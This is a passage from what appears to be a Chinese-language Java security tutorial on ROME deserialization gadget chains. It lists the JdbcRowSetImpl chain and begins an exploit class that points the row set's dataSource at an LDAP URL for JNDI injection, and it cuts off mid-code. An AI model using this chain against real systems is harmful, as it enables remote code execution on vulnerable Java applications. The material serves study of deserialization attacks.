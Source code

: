 [![](assets/1705886615-f673d0d9fb9139416604bdd9a9e06b48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124932-4d8eaa46-b74f-1.png)

然后来到了ToStringBean类的toString方法，获取\_beanClass的所有get方法并调用，和前面的链一致

## 8\. JdbcRowSetImpl利用链

### 利用链

```plain
JdbcRowSetImpl.connect()
JdbcRowSetImpl.getDatabaseMetaData()
ToStringBean.toString(String)
ToStringBean.toString()
EqualsBean.beanHashCode()
EqualsBean.hashCode()
ObjetBean.hashCode()
HashMap<K,V>.hash(Object)
HashMap<K,V>.readObject(ObjectInputStream)
```

### EXP

```plain
package RomeSec;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class JdbcRowExp {
    public static void main(String[] args) throws Exception{
        // ldap url
        String url = "ldap://127.0.0.1:1389/nils4f";

        // 创建JdbcRowSetImpl对象
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
        dataSource.setAccessible(true);
        dataSource.set(jdbcRowSet, url);

```